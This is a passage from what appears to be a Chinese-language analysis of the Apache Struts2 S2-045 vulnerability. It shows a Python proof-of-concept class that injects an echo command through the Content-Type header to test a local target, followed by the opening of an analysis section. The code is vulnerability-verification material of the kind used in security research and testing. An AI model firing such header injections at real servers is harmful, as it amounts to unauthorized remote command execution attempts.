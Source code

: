 ```python

    def run(self):

        """
        检测是否存在漏洞

        :param:
        :return str True or False
        """

        try:
            self.check_payload = self.payload.replace('cmd_data', 'echo ' + self.capta)
            self.headers['Content-Type'] = self.check_payload
            check_req = requests.get(self.url, headers = self.headers)
            if self.capta in check_req.text:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_045 = S2_045_BaseVerify('http://localhost:8080/s2_045_war_exploded/Upload.action')
    print(S2_045.run())
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](../img/S2-045/images/流程图.png)
